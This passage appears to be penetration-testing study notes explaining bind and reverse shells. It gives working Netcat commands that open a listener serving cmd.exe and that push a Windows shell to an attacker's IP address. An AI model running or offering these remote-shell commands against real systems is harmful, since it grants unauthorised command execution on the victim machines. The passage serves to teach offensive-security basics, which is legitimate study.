 * A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.
* A Netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener.

```bash
C:\Temp> nc.exe -lnvp 1234 -e cmd.exe
```

```bash
kali@kali> nc 10.3.24.103 1234
C:\Temp> whoami
```

#### Reverse shell

<figure><img src="../../.gitbook/assets/118.png" alt=""><figcaption></figcaption></figure>

* A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

```bash
kali@kali> nc -lnvp 1234
```

```bash
C:\Temp> nc.exe -nv 10.10.20.4 1234 -e cmd.exe
```

On the Linux terminal a Windows shell pops up.

<figure><img src="../../.gitbook/assets/119.png" alt=""><figcaption></figcaption></figure>
